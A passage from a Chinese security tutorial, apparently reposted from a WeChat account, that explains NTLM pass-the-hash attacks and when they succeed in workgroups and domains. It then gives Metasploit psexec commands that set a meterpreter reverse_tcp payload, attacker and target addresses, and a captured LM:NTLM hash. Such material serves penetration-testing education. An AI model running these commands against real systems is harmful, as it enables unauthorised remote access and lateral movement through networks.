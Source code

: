 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490908&idx=1&sn=97594fbbef40346d07b5a6e5185ce77e&chksm=fc781981cb0f9097d18f4b32ff39f59b3512cedd35f0810ad5f61b661e631153f8c4e157d875&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_jpg/UZ1NGUYLEFgwuEp9SUZPx1nFQ8GW7lWHnnImWeVFF9wBDK21ecqM7sOIV7WVEKzkhHy3nsLFOIx8lkWp4BIQRQ/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490017&idx=1&sn=426336dfeeda818b0772b3c44703e173&chksm=fc781d3ccb0f942a7c07662752bb2f6983eb9c249c0d6b833f058b1d95fc7080d2d2598054ac&scene=21#wechat_redirect)

作者：谢公子

  

CSDN 安全博客专家，擅长渗透测试、Web 安全攻防、红蓝对抗。其自有公众号：谢公子学安全

免责声明：本公众号发布的文章均转载自互联网或经作者投稿授权的原创，文末已注明出处，其内容和图片版权归原网站或作者本人所有，并不代表安全 + 的观点，若有无意侵权或转载不当之处请联系我们处理，谢谢合作！

**欢迎各位添加微信号：qinchang_198231** 

**加入安全 + 交流群 和大佬们一起交流安全技术**

**哈希传递攻击**攻击****  

哈希传递攻击是基于 NTLM 认证的一种攻击方式。哈希传递攻击的利用前提是我们获得了某个用户的密码哈希值，但是解不开明文。这时我们可以利用 NTLM 认证的一种缺陷，利用用户的密码哈希值来进行 NTLM 认证。在域环境中，大量计算机在安装时会使用相同的本地管理员账号和密码。因此，如果计算机的本地管理员账号密码相同，攻击者就能使用哈希传递攻击登录内网中的其他机器。

**哈希传递攻击适用情况：**

**在工作组环境中：**

*   Windows Vista 之前的机器，可以使用本地管理员组内用户进行攻击。
    
*   Windows Vista 之后的机器，只能是 administrator 用户的哈希值才能进行哈希传递攻击，其他用户 (包括管理员用户但是非 administrator) 也不能使用哈希传递攻击，会提示拒绝访问。
    

**在域环境中：**

*   只能是域管理员组内用户 (可以是域管理员组内非 administrator 用户) 的哈希值才能进行哈希传递攻击，攻击成功后，可以访问域内任何一台机器。
    

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRuuNsibqqHiaN2j2K0NoyqVyU6xBibvO7nvt7pLLckgQImV16iaCeuKCWvA/640?wx_fmt=gif)

  

**MSF 进行哈希传递攻击 PtH(工作组)**

有些时候，当我们获取到了某台主机的 administrator 用户的密码哈希值 ，并且该主机的 445 端口打开着。我们则可以利用 exploit/windows/smb/psexec 模块用 MSF 进行远程登录 (哈希传递攻击)。这个是 rhost 可以是一个主机，也可以设置一个网段。

这里目标主机的 WindowsVista 之后的机器，所以只能使用 administrator 用户进行攻击。

**工作组环境，必须是 administrator 用户**

```
msf > use  exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set lhost 192.168.10.27
msf exploit(psexec) > set rhost 192.168.10.14
msf exploit(psexec) > set smbuser Administrator
msf exploit(psexec) > set smbpass 815A3D91F923441FAAD3B435B51404EE:A86D277D2BCD8C8184B01AC21B6985F6   #这里LM和NTLM我们已经获取到了
msf exploit(psexec) > exploit
```
